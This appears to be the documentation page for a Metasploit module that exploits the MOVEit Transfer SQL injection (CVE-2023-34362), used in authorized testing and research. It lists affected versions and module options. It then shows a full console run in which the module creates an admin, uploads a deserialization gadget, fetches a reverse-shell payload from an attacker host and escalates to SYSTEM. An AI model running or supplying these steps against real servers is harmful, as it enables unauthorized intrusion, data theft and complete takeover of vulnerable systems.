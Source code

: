## Description
This module exploits an SQL injection vulnerability in the MOVEit Transfer web application
that allows an unauthenticated attacker to gain access to MOVEit Transfer’s database. 
Depending on the database engine being used (MySQL, Microsoft SQL Server, or Azure SQL), an
attacker can leverage an information leak be able to upload a .NET deserialization payload.

## Vulnerable Applications
MOVEit Transfer versions:

| Starting Version | Patched Version |
------------------|-----------------|
| 2023.0.0         |2023.0.3 (15.0.3)|
| 2022.1.x         | 2022.1.7 (14.1.7)|
| 2022.0.x         | 2022.0.6 (14.0.6)|
| 2021.1.x         | 2021.1.6 (13.1.6)|
| 2021.0.x         | 2021.0.8 (13.0.8) |
|2020.1.x         | 2020.1.10 (12.1.10) |

# Installation Instructions
1. Installation requires a valid trial license that can be obtained by going here:
https://www.ipswitch.com/forms/free-trials/moveit-transfer
2. Ensure that your computer has intenet access for the license to activate and double-click the installer.
3. Follow installation instructions for an evaluation installation.
4. After the installation completes, follow the instructions to create an admin user.

## Options
**LOGIN_NAME**  (Required) Will be used as the login name for the system administrator created by the exploit.  The default is random.

**PASSWORD**    (Required) Will be used as the password name for the system administrator created by the exploit.  The default is random.

**USERNAME**    (Required) Will be used as the user name for the system administrator created by the exploit.  The default is random.

## Verification Steps
* Do: `msfconsole`
* Do: `use exploit/windows/http/moveit_cve_2023_34362`
* Do: `set rhost <rhost>`
* Do: `set lhost <lhost>`
* Do: `set fetch_srvhost <srvhost>`
* Do: `set lhost <lhost>`
* Do: `run`
* Do: **Verify** you get a session

## Scenarios
### Using MOVEit 15.0.0.3 on Windows Server 2022 21H2
```msf
msf6 exploit(windows/http/moveit_cve_2023_34362) > show options

Module options (exploit/windows/http/moveit_cve_2023_34362):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   LOGIN_NAME  CGN3c8hSeaE      yes       Login Name
   PASSWORD    pnislnpdAWX      yes       Password
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      10.5.134.242     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-me
                                          tasploit.html
   RPORT       443              yes       The target port (TCP)
   SSL         true             no        Negotiate SSL/TLS for outgoing connections
   TARGET_URI  /api/v1/token    no        Target URI
   USERNAME    wtxRmr5vw        yes       Username
   VHOST                        no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      lebHSskcwh       no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST       10.5.135.201     yes       Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/moveit_cve_2023_34362) > run

[*] Started reverse TCP handler on 10.5.135.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] [0/10] Get the sessionID and siLockLongTermInstID
[*] [1/10] Create New Sysadmin
[*] [2/10] Get API Token
[*] [3/10] Get Folder ID
[*] [4/10] Begin File Upload
[*] [5/10] Leak Encryption Key
[*] [6/10] Generate Gadget
[*] [7/10] Encrypt Gadget
[*] [8/10] Upload Encrypted Gadget
[*] [9/10] Trigger Gadget
[*] [10/10] Cleaning Up
[*] Sending stage (200774 bytes) to 10.5.134.242
[*] Meterpreter session 1 opened (10.5.135.201:4444 -> 10.5.134.242:51176) at 2023-06-21 15:35:47 -0500

meterpreter > sysinfo
Computer        : WIN-ED9OLD6JEO6
OS              : Windows 2016+ (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 12
Meterpreter     : x64/windows
meterpreter > getuid
Server username: WIN-ED9OLD6JEO6\moveitsvc
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 



```
